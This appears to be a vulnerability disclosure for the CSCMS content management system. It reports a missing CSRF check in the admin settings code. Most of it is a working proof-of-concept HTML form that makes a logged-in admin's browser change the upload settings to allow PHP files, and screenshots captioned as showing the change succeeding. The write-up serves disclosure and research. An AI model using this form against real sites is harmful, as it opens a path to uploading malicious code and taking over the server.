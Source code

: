 # CSCMS_CSRF
-----
### Code analysis
Vulnerability code is located ` \upload\plugins\sys\admin\Setting.php` 225 to 286 lines
![CSRF1](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF1.png)
![CSRF2](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF2.png)
There is no CSRF defense set, so there is a vulnerability

### POC
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://IP/admin.php/setting/ftp_save" method="POST">
      <input type="hidden" name="UP&#95;Mode" value="1" />
      <input type="hidden" name="UP&#95;Size" value="20480" />
      <input type="hidden" name="UP&#95;Type" value="mp3&#124;mp4&#124;jpg&#124;gif&#124;png&#124;txt&#124;zip&#124;rar&#124;php" />
      <input type="hidden" name="UP&#95;Url" value="" />
      <input type="hidden" name="UP&#95;Pan" value="" />
      <input type="hidden" name="FTP&#95;Url" value="http&#58;&#47;&#47;demo&#46;chshcms&#46;com&#47;" />
      <input type="hidden" name="FTP&#95;Server" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="FTP&#95;Port" value="21" />
      <input type="hidden" name="FTP&#95;Dir" value="" />
      <input type="hidden" name="FTP&#95;Name" value="111" />
      <input type="hidden" name="FTP&#95;Pass" value="111&#42;&#42;&#42;&#42;&#42;&#42;" />
      <input type="hidden" name="FTP&#95;Ive" value="1" />
      <input type="hidden" name="CS&#95;Qn&#95;Bk" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Ak" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Sk" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Url" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Bk" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Ai" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Ak" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Bucket" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Name" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Pwd" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

### Vulnerability display
PHP did not exist at the beginning
![CSRF3](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF3.png)
USE POC
![CSRF4](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF4.png)
PHP add success！
![CSRF5](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF5.png)


